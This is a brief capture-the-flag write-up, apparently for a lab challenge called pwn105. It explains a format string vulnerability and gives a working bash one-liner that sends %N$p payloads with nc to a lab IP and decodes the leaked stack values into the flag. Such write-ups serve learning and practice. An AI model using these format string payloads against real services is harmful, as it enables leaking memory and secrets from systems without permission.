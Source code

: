 # pwn105

a format string vulnerability, with the flag hidden inside pointers on the stack. a single bash loop can extract these (in positions 6 though 11), convert them to ascii, reverse them and stitch it together to get the flag:

```
current_thmip=10.10.134.184
(for i in {11..6..-1}; do echo \%$i\$p | nc $current_thmip 9006; done) | grep Thanks | cut -c 8- | xxd -ps -r | rev
```